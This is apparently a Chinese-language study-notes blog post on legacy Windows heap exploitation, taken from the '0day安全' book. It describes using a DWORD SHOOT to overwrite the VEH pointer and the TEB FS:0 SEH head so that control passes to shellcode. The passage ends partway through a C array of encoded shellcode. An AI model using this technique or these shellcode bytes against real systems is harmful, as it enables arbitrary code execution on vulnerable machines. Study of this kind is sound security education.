 最终测试结果如下：

![Bildschirmfoto 2018-07-22 um 1.47.18 PM.png]({{ site.url }}/images/0day/BAAD33ABC5ABBB24DCF5077934DFDCB1.png)

最后还有一个疑问：测试代码中并未使用`AddVectoredExceptionHandler`对回调函数进行注册，而是直接用了`try/except`，但最终系统也调用了VEH，这说明什么？说明进程有一个默认的VEH异常处理？还是？

我大概明白了，其实VEH只有在开发者通过`AddVectoredExceptionHandler`注册之后才能生效，但是系统怎么才能知道开发者到底有没有注册呢？它只有在需要异常处理时沿着VEH的链去找有没有节点，有的话就调用，没有的话就继续找SEH。谁负责找呢？当然是`KiUserExceptionDispatcher()`（我猜测的）。由于我们在异常发生前已经让`0x77FC3210`指向了我们的`pseudo`节点，所以虽然开发者并没有注册VEH，但是系统认为有一个这样的VEH节点（虽然是假的），于是就调用了。

- 攻击TEB中的SEH头节点

如下图，这种技术的思想是利用DWORD SHOOT去修改`TEB FS:0`指针：

![Screen Shot 2018-07-08 at 3.00.25 PM.png]({{ site.url }}/images/0day/FF53A436EDA995546BF250CCDED73CB9.png)

Halvar Flake在`Third Generation Exploitation`中提到了这个技术，他也指出了它的局限性，即遇到多线程程序时（尤其是服务器程序），我们很难判断当前的线程是哪一个，从而找到对应的TEB在哪。为什么呢？这涉及到TEB的一些细节：

```
- 一个进程中可能存在多个线程
- 每个线程都有一个线程环境块TEB
- 第一个TEB开始于地址`0x7FFDE000`
- 之后新建线程的TEB将紧随前边的TEB，之间相隔0x1000字节，向内存低址方向增长
- 线程退出时，对应的TEB被销毁，腾出的TEB空间可以被新建的线程重复使用
```

所以这种技术往往用于单线程程序（Halvar Flake给出了一些在多线程环境下去实施这项技术的思路，如通过大量创建、销毁线程去控制TEB排列等，这里暂不涉及）。

我们尝试复现这个技术：

在[0day安全 Chapter 3 开发shellcode的艺术](quiver:///notes/422E2247-2D65-43F6-96C2-CDE33FEAB65C)中，我给出了TEB的wiki，我们可以去具体看一下TEB的结构：

![Bildschirmfoto 2018-07-23 um 8.22.10 PM.png]({{ site.url }}/images/0day/44CAA83A5768BF9058490CEAF3918A06.png)

可以发现，TEB结构体第一个成员即为SEH指针。结合之前的TEB与SEH指向图和TEB的细节知识，我们得到以下思路：

利用DWORD SHOOT去将`0x7FFDE000`处的指针覆盖为`shellcode_addr - 4`（与攻击VEH相同，我们要制造一个pseudo-SEH节点，而SEH节点结构体中第一个成员是链表指针，第二个成员才是异常处理函数）。

有了之前的那么多基础，按理说这里的复现应该没什么问题，但是我在这里卡了半个小时。当然，在调试开悟之后，也对DWORD SHOOT的理解更加深刻了。首先我们来讲讲最开始想当然、却未成功的过程：

测试代码就用上一部分攻击VEH的代码，因为本质上我们都是需要一个DWORD SHOOT的机会，只不过攻击的目标不同而已。

我们先在调试器中验证一下`TEB FS:0`，看是什么：

![Bildschirmfoto 2018-07-23 um 8.30.57 PM.png]({{ site.url }}/images/0day/DD0B6E66509283EBC70917130850C3FC.png)

从上图中下方可以看到，它的确指向离栈顶最近的SEH节点（事实上，通过后面的调试我发现，Ollydbg查看SEH链的原理可能就是读取`0x7FFDE000`，或者说，至少一旦这个位置的值发生改变，Ollydbg查看的结果就会发生改变）。

我们只需要对之前的shellcode做简单的修改：

```c
char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x29\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07"
"\xe2\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86"
"\x5e\x3f\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a"
"\x2c\xe1\xb3\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9"
"\xde\x7f\x79\xa4\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72"
"\x3a\xed\x6c\xb5\x66\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2"
"\x7e\xc0\x4d\x9b\x7f\xb0\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d"
"\xaf\x59\x26\xa4\x66\x23\x7b\x15\x85\x3a\xe8\x3c\x41\x67\xb4"
"\x0e\xe2\x66\x20\xe7\x35\x72\x6e\xa3\xfa\x76\xf8\x75\xa5\xff"
"\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e\x7f\x61\xdd\xdc\xde\x0e"
"\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f\x90\x91\xc2\xfb\xa5"
```
